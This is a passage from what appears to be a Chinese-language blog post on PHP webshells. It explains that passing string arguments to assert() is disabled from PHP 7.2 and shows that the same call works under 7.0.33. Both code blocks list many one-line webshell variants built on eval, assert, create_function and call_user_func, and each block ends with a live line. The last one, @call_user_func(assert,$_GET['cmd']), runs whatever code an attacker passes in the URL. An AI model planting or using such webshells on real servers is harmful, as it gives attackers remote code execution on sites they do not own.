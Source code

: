 如下图所示显示为空

![image-20200910210011420](/images/webshell/image-20200910210011420.png)

绕过

```php+HTML
<?php
//eval(system('date'));
//$tmp='system("'.$_GET[cmd].'");';
//eval($tmp);
//@eval($_POST[cmd]);
//assert(system("date"));
//assert($_GET['cmd']);
//$tmp = create_function('',system('date'));
//$tmp();

//$tmp = create_function('',$_POST['cmd']);
//$tmp();

//call_user_func(system("date"));
//call_user_func(assert,$_POST['cmd']);
@call_user_func(assert,phpinfo());

?>
```

![image-20200910210301627](/images/webshell/image-20200910210301627.png)



由以上`assert()`函数介绍，给 assert() 函数传入字符串参数，这个特性在 7.2 禁用。

因为通过超全局常量 `$_GET['']`获取的攻击者输入是字符串，这样传入assert函数就触发了禁用。

但是直接`assert(phpinfo())`传入的参数是函数，所以就不会触发函数禁用，可以正常回显。

此时更换PHP版本为`7.0.33`如下图所示可以显示。

```php+HTML
<?php
//eval(system('date'));
//$tmp='system("'.$_GET[cmd].'");';
//eval($tmp);
//@eval($_POST[cmd]);
//assert(system("date"));
//assert($_GET['cmd']);
//$tmp = create_function('',system('date'));
//$tmp();

//$tmp = create_function('',$_POST['cmd']);
//$tmp();

//call_user_func(system("date"));
//call_user_func(assert,$_POST['cmd']);
//@call_user_func(assert,phpinfo());

@call_user_func(assert,$_GET['cmd']);
?>
```
